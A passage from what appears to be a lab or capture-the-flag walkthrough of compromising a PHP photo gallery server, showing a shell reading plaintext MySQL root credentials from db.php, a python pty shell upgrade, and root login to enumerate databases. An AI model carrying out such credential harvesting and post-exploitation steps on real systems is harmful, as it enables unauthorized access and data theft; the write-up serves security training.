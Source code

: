 ```
drwxr-xr-x. 2 root root    6 Jun 10 10:23 photos
-rw-r--r--. 1 root root 1.6K Jun  8 13:46 phpGalleryConfig.php
-rw-r--r--. 1 root root  619 Jun  8 13:46 phpGalleryStyle-RED.css
-rw-r--r--. 1 root root  509 Jun  8 13:46 phpGalleryStyle.css
drwxr-xr-x. 2 root root    6 Jun 10 09:31 phpGallery_images
drwxr-xr-x. 2 root root    6 Jun 10 09:31 phpGallery_thumbs
-rw-r--r--. 1 root root 2.6K Jun  8 13:46 thumbnail_generator.php
sh-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
sh-4.2$
```

We can use these credentials to authenticate to the MySQL server on the target (via localhost).

### MySQL Database Enumeration

Before running the MySQL command line tool, we need to upgrade our shell:

```
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$
```

We can now connect to the database and enumerate further:

```
bash-4.2$ mysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW DATABASES;
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> USE SimplePHPGal;
USE SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```